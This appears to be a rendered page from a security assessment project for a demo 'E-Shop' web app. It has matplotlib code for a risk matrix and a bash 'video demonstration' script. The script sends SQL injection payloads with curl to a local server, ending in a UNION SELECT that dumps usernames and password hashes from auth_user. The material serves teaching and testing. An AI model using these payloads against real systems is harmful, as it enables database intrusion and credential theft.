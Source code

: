 ```python

# Customize
ax.set_xticks(np.arange(len(impact)))
ax.set_yticks(np.arange(len(likelihood)))
ax.set_xticklabels(impact)
ax.set_yticklabels(likelihood)
ax.set_xlabel('Impact', fontsize=14, fontweight='bold')
ax.set_ylabel('Likelihood', fontsize=14, fontweight='bold')
ax.set_title('Security Risk Matrix - E-Shop Application', fontsize=16, fontweight='bold')

# Add grid
ax.set_xticks(np.arange(len(impact))-.5, minor=True)
ax.set_yticks(np.arange(len(likelihood))-.5, minor=True)
ax.grid(which="minor", color="black", linestyle='-', linewidth=2)

# Legend
legend_elements = [plt.Rectangle((0,0),1,1, facecolor=c, edgecolor='black') 
                  for c in cmap_colors]
legend_labels = ['Low', 'Medium', 'High', 'Critical', 'Extreme']
ax.legend(legend_elements, legend_labels, loc='center left', bbox_to_anchor=(1, 0.5))

plt.tight_layout()
plt.savefig('risk_matrix.png', dpi=300, bbox_inches='tight')
```

---

## 🎬 Video Demonstration Scripts

### 1. SQL Injection Demo Video Script

```bash
#!/bin/bash
# sql_injection_demo.sh

echo "=== SQL Injection Demonstration ==="
echo "Target: E-Shop Application"
echo ""

# Step 1: Normal search
echo "[1] Testing normal search functionality..."
curl -s "http://localhost:8000/catalog/?q=laptop" | grep -A 5 "search-results"

sleep 2

# Step 2: SQL injection test
echo "[2] Testing for SQL injection vulnerability..."
curl -s "http://localhost:8000/catalog/?q='" | grep -i "error"

sleep 2

# Step 3: Extract database version
echo "[3] Extracting database information..."
curl -s "http://localhost:8000/catalog/?q=' UNION SELECT NULL,sqlite_version(),NULL,NULL,NULL,NULL,NULL--" | grep -A 5 "search-results"

sleep 2

# Step 4: Extract users
echo "[4] Dumping user credentials..."
curl -s "http://localhost:8000/catalog/?q=' UNION SELECT NULL,username,password,NULL,NULL,NULL,NULL FROM auth_user--" | grep -A 10 "search-results"

```